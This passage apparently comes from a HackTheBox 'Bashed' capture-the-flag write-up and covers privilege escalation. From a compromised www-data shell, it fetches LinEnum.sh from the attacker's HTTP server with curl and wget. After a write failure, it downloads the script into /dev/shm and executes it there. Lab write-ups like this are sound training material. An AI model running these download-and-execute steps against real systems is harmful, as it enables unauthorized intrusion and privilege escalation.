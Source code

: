 And now we have a full shell. Let's do some privilege escalation.

### Privilege Escalation

Let's get our favorite `LinEnum.sh` on this machine. I start a webserver from a directory that contains this script on my machine and will try to `curl` or `wget` it on the remote machine.

I have these two functions that I use to spin up a webserver on my machine quickly for HackTheBox:

```bash
htb_server () {
        echo "Server IP Address copied to clipboard" && echo "$(htb_ip):8000/" | xsel -ib && python3 -m http.server
}

htb_ip () {
        ifconfig tun0 | awk '/inet / {print $2}'
}
```

```bash
$ htb_server
Server IP Address copied to clipboard
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And then I run the following command from the shell on the remote machine:

```bash
www-data@bashed:/var/www/html/dev$ curl 10.10.14.31:8000/LinEnum.sh -o LinEnum.sh && chmod +x LinEnum.sh && ./LinEnum.sh 
The program 'curl' is currently not installed. To run 'curl' please ask your administrator to install the package 'curl'
```

Okay. Seems like `curl` isn't on the machine. Let's try `wget`.

```bash
www-data@bashed:/var/www/html/dev$ which wget
/usr/bin/wget
www-data@bashed:/var/www/html/dev$ wget 10.10.14.31:8000/LinEnum.sh
--2020-04-02 05:30:03--  http://10.10.14.31:8000/LinEnum.sh
Connecting to 10.10.14.31:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
LinEnum.sh: Permission denied

Cannot write to 'LinEnum.sh' (Success).
```

So, we successfully connected to my webserver to download the script, downloaded it and failed to write it to disk. To fix this, let's just write it to memory (`/dev/shm`)

```bash
www-data@bashed:/var/www/html/dev$ cd /dev/shm
www-data@bashed:/dev/shm$ wget 10.10.14.31:8000/LinEnum.sh
www-data@bashed:/dev/shm$ chmod +x LinEnum.sh && ./LinEnum.sh
```
